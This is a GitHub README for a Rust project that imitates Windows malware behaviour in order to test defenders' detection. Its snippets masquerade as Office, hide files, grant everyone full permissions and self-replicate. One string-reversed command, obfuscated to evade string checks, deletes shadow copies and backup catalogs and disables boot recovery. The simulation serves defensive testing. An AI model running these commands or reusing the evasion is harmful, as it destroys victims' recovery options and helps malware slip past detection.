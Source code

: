 # RustMyDetection
Mimic a Windows malware in Rust

## Purpose:

To simulate the behaviour of a malware to test the detection and reaction of the operators.  
It is more a toolbox than a complete product

I am not working on a tool for:
  - pentester 
  - redteam

The icons and executable informations are taken from a version of Office 2016.

## Why Rust:

Because I want to learn it and it's fun to try new things

The code is dirty I know and it will get better as I get better

## Todo List:

- [X] Change executable internal name (build.rs)
- [X] Run a external command (run_exe)
- [X] Encode command to bypass string check very basic (run_exe_reverse)
- [X] Self-replicated (spawn)
- [ ] Download another payload
- [ ] Registry SetValue
- [ ] Drop file

## Example

### Set internal name

change value of exe_metadata to :
- Mimic::Word
- Mimic::Excel
- Mimic::Powerpoint
- Mimic::Rustmydetection

### run_exe / run_exe_reverse
```rust
    // https://app.any.run/tasks/d71d86cb-0c13-4086-85ce-d140e826fbea/

    tools::run_exe ("attrib", "+h .");
    tools::run_exe ("icacls",". /grant Everyone:F /T /C /Q");

    let mycmd = "teiuq- golatac eteled nimdabw & on delbaneyrevocer }tluafed{ tes/ tidedcb & seruliafllaerongi ycilopsutatstoob }tluafed{ tes/ tidedcb & eteled ypocwodahs cimw & teiuq/ lla/ swodahs eteled nimdassv  C/".to_string();
    tools::run_exe_reverse("cmd", &mycmd);
```
### spawn
```rust
    //get current exe
    let my_name = std::env::current_exe()
        .expect("Can't get the exec path")
        .file_name()
        .expect("Can't get the exec name").
        to_string_lossy().
        into_owned();

    match my_name.as_ref(){
        "rustmydetection.exe" => {tools::spawn(r"setup.exe");},
        "setup.exe" => {tools::spawn(r"C:\Program File\Microsoft Office\Office16\WinWord.exe");},
        _ => {}
    }
```

